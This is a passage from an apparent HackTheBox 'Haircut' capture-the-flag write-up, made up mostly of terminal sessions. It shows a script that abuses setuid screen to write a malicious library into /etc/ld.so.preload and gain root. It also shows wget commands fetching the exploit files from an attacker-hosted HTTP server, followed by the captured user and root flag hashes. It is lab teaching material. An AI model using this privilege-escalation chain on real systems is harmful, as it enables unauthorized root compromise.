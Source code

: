```bash
libhax.c  libhax.so  revshell.php  rootshell  rootshell.c

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# cat exploit.sh                       
#!/bin/bash

cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
screen -ls # screen itself is setuid, so... 
/tmp/rootshell

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# ls
exploit.sh  libhax.c  libhax.so  revshell.php  rootshell  rootshell.c

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, we can use the shell to grab the files over and execute the script.

```bash
$ cd /tmp
$ wget http://10.10.14.12/libhax.so
$ wget http://10.10.14.12/rootshell
$ wget http://10.10.14.12/exploit.sh
$ chmod +x exploit.sh
$ ./exploit.sh
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
cat /home/maria/user.txt
9a42c4b5a80e862e7f007cc468c035ce
cat /root/root.txt
c9818e45d1aa8e774c0286dba6ea71ea
```

